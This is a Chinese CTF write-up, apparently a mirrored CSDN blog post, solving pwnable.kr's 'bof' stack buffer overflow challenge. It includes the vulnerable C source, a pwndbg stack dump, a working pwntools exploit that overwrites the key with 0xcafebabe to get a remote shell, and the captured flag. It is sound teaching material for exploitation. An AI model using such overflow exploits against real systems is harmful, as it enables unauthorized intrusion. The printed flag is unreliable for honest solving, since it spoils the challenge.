 <!--yml
category: 未分类
date: 2022-04-26 14:30:01
-->

# PWN bof [pwnable.kr]CTF writeup题解系列3_3riC5r的博客-CSDN博客

> 来源：[https://blog.csdn.net/fastergohome/article/details/103794250](https://blog.csdn.net/fastergohome/article/details/103794250)

题目地址：[http://pwnable.kr/play.php](http://pwnable.kr/play.php)

先看看图标，挺有意思的小动物！

![](img/0699bf3e9dbda28270eb535860086715.png)

继续看题目内容：

![](img/106e20253367f688b20c7fee7f15cba8.png) 

下载相应的文件

```
root@mypwn:/ctf/work/pwnable.kr# wget http://pwnable.kr/bin/bof.c
--2020-01-01 08:40:45--  http://pwnable.kr/bin/bof.c
Resolving pwnable.kr (pwnable.kr)... 128.61.240.205
Connecting to pwnable.kr (pwnable.kr)|128.61.240.205|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 308 [text/x-csrc]
Saving to: ‘bof.c’

bof.c                          100%[=================================================>]     308  --.-KB/s    in 0s      

2020-01-01 08:40:45 (8.07 MB/s) - ‘bof.c’ saved [308/308]

root@mypwn:/ctf/work/pwnable.kr# wget http://pwnable.kr/bin/bof
--2020-01-01 08:40:48--  http://pwnable.kr/bin/bof
Resolving pwnable.kr (pwnable.kr)... 128.61.240.205
Connecting to pwnable.kr (pwnable.kr)|128.61.240.205|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7348 (7.2K)
Saving to: ‘bof’

bof                            100%[=================================================>]   7.18K  --.-KB/s    in 0s      

2020-01-01 08:40:49 (148 MB/s) - ‘bof’ saved [7348/7348]

root@mypwn:/ctf/work/pwnable.kr# nc pwnable.kr 9000
aa
overflow me : 
Nah..
root@mypwn:/ctf/work/pwnable.kr#
```

直接看看c语言代码

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

 这次没有做反编译，直接gdb调试一下，看看0xdeadbeef和key的相对位置就直接填充。

```
────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ esp  0xffd75e20 —▸ 0xffd75e3c ◂— 0x41414141 ('AAAA')
01:0004│      0xffd75e24 ◂— 0x0
... ↓
03:000c│      0xffd75e2c ◂— 0xc4e7c600
04:0010│      0xffd75e30 ◂— 9 /* '\t' */
05:0014│      0xffd75e34 —▸ 0xffd77fd9 ◂— './bof'
06:0018│      0xffd75e38 —▸ 0xf75444a9 (__new_exitfn+9) ◂— add    ebx, 0x1a7b57
07:001c│ eax  0xffd75e3c ◂— 0x41414141 ('AAAA')
──────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────
 ► f 0 565b6654 func+40
   f 1 565b669f main+21
   f 2 f752ce81 __libc_start_main+241
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> x 0xffd75e68+8
0xffd75e70:	0xdeadbeef
pwndbg> x/100x $sp
0xffd75e20:	0xffd75e3c	0x00000000	0x00000000	0xc4e7c600
0xffd75e30:	0x00000009	0xffd77fd9	0xf75444a9	0x41414141
0xffd75e40:	0x41414141	0x41414141	0x41414141	0x41414141
0xffd75e50:	0x41414141	0x41414141	0x41414141	0x41414141
0xffd75e60:	0x41414141	0xf7544500	0xffd75e88	0x565b669f
0xffd75e70:	0xdeadbeef	0x00000000	0x565b66b9	0x00000000
```

 我填写了一下A进去，算下到0xdeadbeef有多远就直接覆盖。

贴出来python脚本如下：

```
#coding:utf8
#!/usr/bin/env python

from pwn import *

context.log_level = 'debug'
process_name = './bof'
# p = process([process_name], env={'LD_LIBRARY_PATH':'./'})
p = remote('pwnable.kr', 9000)
# elf = ELF(process_name)

p.sendline('A'*(0x34) + p32(0xcafebabe))

p.interactive() 
```

执行结果如下：

```
root@mypwn:/ctf/work/pwnable.kr# python bof.py 
[+] Opening connection to pwnable.kr on port 9000: Done
[DEBUG] Sent 0x39 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000030  41 41 41 41  be ba fe ca  0a                        │AAAA│····│·│
    00000039
[*] Switching to interactive mode
$ cat flag
[DEBUG] Sent 0x9 bytes:
    'cat flag\n'
[DEBUG] Received 0x20 bytes:
    'daddy, I just pwned a buFFer :)\n'
daddy, I just pwned a buFFer :)
$ 
```

简单溢出题，没什么特别好说的。